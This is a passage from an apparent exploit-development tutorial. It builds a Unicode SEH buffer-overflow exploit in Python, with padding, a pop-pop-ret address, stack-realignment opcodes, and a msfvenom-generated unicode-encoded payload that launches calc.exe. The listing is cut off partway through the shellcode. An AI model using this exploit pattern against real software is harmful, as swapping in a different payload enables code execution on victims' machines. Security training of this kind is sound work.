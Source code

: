```
19.	buf += b"\x71" * 595  
20.	  
21.	buf += b"\x44" * (5000 - len(buf))  
22.	  
23.	f.write(buf)  
24.	f.close()  
```

\
Finally, all we have to do is create a payload and add it to our shell code and this should be completed.

### Finishing the Exploit

In order to create our payload, we will once again be using MSFVenom. To do that, boot up an instance of Kali or wherever you keep a copy of MSFVenom, and run the following command to generate our payload:

**Command:**\
msfvenom -p windows/exec CMD=calc.exe -e x86/unicode\_upper BufferRegiseter=EAX -f python

MSFVenom Payload Generation  \
After we copy this into our exploit code, it should look something like the following:

```

1.	f = open("crash-6.txt", "wb")  
2.	  
3.	buf = b""  
4.	buf += b"\x41" * 1019  
5.	buf += b"\x71\x71"                  # Unicode NOP  
6.	buf += b"\xB3\x48"                  # 0x004800b3 | pop ecx, pop ebp, ret  
7.	  
8.	#realigning stack  
9.	buf += b"\x75"                           # Unicode NOP  
10.	buf += b"\x54"                           # Push ESP  
11.	buf += b"\x75"                           # Unicode NOP  
12.	buf += b"\x58"                           # POP EAX  
13.	buf += b"\x75"                           # Unicode NOP  
14.	buf += b"\x05\xFF\x10"              # ADD EAX,  
15.	buf += b"\x75"                                 # Unicode NOP  
16.	buf += b"\x2d\xEA\x10"              # SUB EAX,  
17.	buf += b"\x75"  
18.	  
19.	buf += b"\x71" * 595  
20.	  
21.	#msfvenom -p windows/exec CMD=calc.exe -e x86/unicode_upper BufferRegister=EAX -f python  
22.	buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x51"  
23.	buf += b"\x41\x54\x41\x58\x41\x5a\x41\x50\x55\x33\x51\x41\x44"  
24.	buf += b"\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41"  
25.	buf += b"\x51\x41\x49\x41\x51\x41\x50\x41\x35\x41\x41\x41\x50"  
26.	buf += b"\x41\x5a\x31\x41\x49\x31\x41\x49\x41\x49\x41\x4a\x31"  
27.	buf += b"\x31\x41\x49\x41\x49\x41\x58\x41\x35\x38\x41\x41\x50"  
28.	buf += b"\x41\x5a\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49"  
29.	buf += b"\x41\x49\x51\x49\x31\x31\x31\x31\x41\x49\x41\x4a\x51"  
30.	buf += b"\x49\x31\x41\x59\x41\x5a\x42\x41\x42\x41\x42\x41\x42"  
31.	buf += b"\x41\x42\x33\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b"  
32.	buf += b"\x4c\x59\x58\x35\x32\x4b\x50\x4b\x50\x4d\x30\x31\x50"  
33.	buf += b"\x43\x59\x4b\x35\x50\x31\x39\x30\x42\x44\x54\x4b\x50"  
34.	buf += b"\x50\x30\x30\x54\x4b\x42\x32\x4c\x4c\x54\x4b\x31\x42"  
35.	buf += b"\x4c\x54\x54\x4b\x34\x32\x4f\x38\x4c\x4f\x48\x37\x50"  
36.	buf += b"\x4a\x4f\x36\x50\x31\x4b\x4f\x36\x4c\x4f\x4c\x31\x51"  
37.	buf += b"\x43\x4c\x4c\x42\x4e\x4c\x4f\x30\x39\x31\x38\x4f\x4c"  
38.	buf += b"\x4d\x4d\x31\x59\x37\x4a\x42\x4a\x52\x42\x32\x51\x47"  
39.	buf += b"\x34\x4b\x50\x52\x4c\x50\x34\x4b\x30\x4a\x4f\x4c\x54"  
```